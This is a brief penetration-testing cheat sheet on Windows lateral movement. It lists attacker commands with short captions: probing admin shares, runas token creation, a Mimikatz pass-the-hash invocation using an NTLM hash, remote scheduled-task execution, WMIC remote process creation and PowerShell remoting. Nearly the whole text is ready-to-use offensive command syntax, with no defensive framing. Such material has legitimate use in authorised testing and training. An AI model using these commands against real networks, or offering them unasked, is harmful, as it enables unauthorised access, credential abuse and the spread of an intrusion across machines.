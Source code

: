 # Windows - Lateral Movement

```
dir \\host\c$
```

Check to see if your admin on another computer by listing the c$ share

```
net view \\<share>
```

Net command to check remote files

```
runas /user:Domain\(user) something.exe
```

Create a token with creds from command line

```
runas /user:Domain\(user) /netonly something.exe
```

Create a token to pass creds

```
sekurlsa::pth /user:USERNAME /domain:DOMAIN /ntlm:HASH /run:COMMAND
```

Pass the hash with Mimikatz

```
SCHTASKS /Run /S system /U user /P password /I /TN "taskname"
```

Run task immediately on remote system

```
wmic /node:(host) process call create <path to exe>
```

Run exe on remote computer with WMIC

```powershell
Powershell Invoke-Command -ComputerName (host) -ScriptBlock { dir c:\ }
```

WinRM(port 5985) turned off by default(turned on for administration) Run command with Windows remoting
